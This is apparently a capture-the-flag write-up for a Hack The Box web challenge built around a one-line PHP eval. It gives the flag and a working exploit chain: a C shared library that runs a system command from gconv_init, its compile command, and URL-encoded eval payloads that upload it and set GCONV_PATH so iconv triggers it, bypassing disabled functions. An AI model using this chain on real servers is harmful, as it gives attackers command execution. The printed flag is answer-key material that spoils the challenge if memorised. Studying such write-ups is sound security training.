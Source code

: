 # one line php challenge (Web)

![date](https://img.shields.io/badge/date-06%2F03%2F2021-brightgreen)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![blockchain category](https://img.shields.io/badge/difficulty-hard-red)
![hard dificulty](https://img.shields.io/badge/category-web-blue)

## Flag

``
HTB{iconv_r34lly_b3_d01ng_us_lik3_th4t}
``

## Solution

We're given a a web page where some php code is displayed. Basically if we set the bottle emoji GET parameter then eval will be executed and prints whatever the get parameter has assigned to pen emoji variable.

![challinfo](1.png "Challenge Info")

So we'll simply to execute commands with some known php functions (system, shell_exec).

![challinfo](2.png "Challenge Info")

But we get the warning that for security reasons we can't execute this function. Same applies for every other function with command execution capability, cause at the Dockerfile the configure of PHP runs with --disable-all parameter which disables all these functions.

So we can't execute command. Sad.

But next to this it has the --with-iconv parameter, and while searching for bypasses for this we came to this interesting [gist](https://gist.github.com/LoadLow/90b60bd5535d6c3927bb24d5f9955b80). It uses iconv to execute some payload on the server.

First we'll need to make the payload.

We know we can read the flag by executing the `/readflag` command so we can try to print it's output to a file in  /www

```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  system("/readflag > /www/test");
}
```

We can compile that using `gcc payload.c -o payload.so -shared -fPIC`

Then in order to upload the payload we can simulate a form with the following eval payload:

`http://docker.hackthebox.eu:31047/?%F0%9F%8D%BC=$%F0%9F%96%8D%EF%B8%8F;echo%20file_put_contents("/tmp/payload.so",file_get_contents('php://input'));`

and we'll also need to upload a `gconv-modules` file, also to the /tmp folder:

`http://docker.hackthebox.eu:31047/?%F0%9F%8D%BC=$%F0%9F%96%8D%EF%B8%8F;echo%20file_put_contents("/tmp/gconv-modules",file_get_contents('php://input'));`

Then we only have to execute the payload and see if it printed anything to /test

`http://docker.hackthebox.eu:31047/?%F0%9F%8D%BC=$%F0%9F%96%8D%EF%B8%8F;putenv(%22GCONV_PATH=/tmp%22);iconv(%22payload%22,%20%22UTF-8%22,%20%22whatever%22);`

![flag](images/4.png "Flag")